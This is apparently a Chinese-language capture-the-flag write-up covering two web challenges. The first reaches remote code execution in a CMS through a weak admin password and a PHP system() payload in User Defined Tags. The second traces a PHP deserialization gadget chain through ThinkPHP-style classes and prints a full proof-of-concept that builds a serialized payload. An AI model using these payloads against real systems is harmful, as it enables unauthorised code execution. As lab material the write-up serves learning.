 ## my_first_cms
弱口令爆破
```
admin:Admin123
```

### RCE
```
1 ) log in as admin and go to Extensions > User Defined Tags > 
2 ) Write in Code place payload > <?php echo system('id'); ?
> 3 ) After click run you will be see result : uid=1000(admin) gid=1000(admin) groups=1000(admin) uid=1000(admin) gid=1000(admin) groups=1000(admin)
```

## 用过就是熟悉

明显的反序列化入口

![](attachments/Pasted%20image%2020240328194001.png)

`__wakeup` 没有进一步的反序列化

`__destruct` 
think/process/pipes/Windows.php
![](attachments/Pasted%20image%2020240328195056.png)

跟进`removeFiles()`

![](attachments/Pasted%20image%2020240328195136.png)

查找`__toString`

think/Collection.php

![](attachments/Pasted%20image%2020240328195711.png)

跟进toJson

![](attachments/Pasted%20image%2020240328195908.png)

跟进toArray

![](attachments/Pasted%20image%2020240328195941.png)

可触发`__get`

think/View.php
![](attachments/Pasted%20image%2020240328200346.png)

data可控可以触发 `__call`

think/Testone.php
![](attachments/Pasted%20image%2020240328200649.png)

文件名需要爆破，但是因为是使用时间函数进行MD5可以控制爆破范围

Testone 为抽象类寻找子类来实现

![](attachments/Pasted%20image%2020240328202301.png)

poc
```php
<?php  
namespace think\process\pipes {  
    class Windows  
    {  
        private $files = [];  
        public function __construct($a)  
        {  
            $this->files = [$a];  
        }  
    }  
}  
  
namespace think {  
    class Collection {  
        protected $items = [];  
        public function __construct($a) {  
            $this->items = $a;  
        }  
    }  
}  
namespace think {  
    class View  
    {  
        public $engine=array('time'=>'10086');  
        protected $data = [];  
        public function __construct($a)  
        {  
            $this->data = ['loginout'=>$a];  
        }  
    }  
}  
  
namespace think {  
    abstract class Testone {}  
}  
  
namespace think {  
    // Testone为抽象类需要找到子类才能生成  
    class Debug extends Testone {}  
}  
  
  
  
namespace think {  
    $Bug = new think\Debug();  
    $View = new think\View($Bug);  
    $Collection = new \think\Collection($View);  
    $Windows = new \think\process\pipes\Windows($Collection);  
    $poc = base64_encode(serialize($Windows));  
    echo($poc);  
}
```

后续得到文件包含的处理

![](attachments/Pasted%20image%2020240329080200.png)

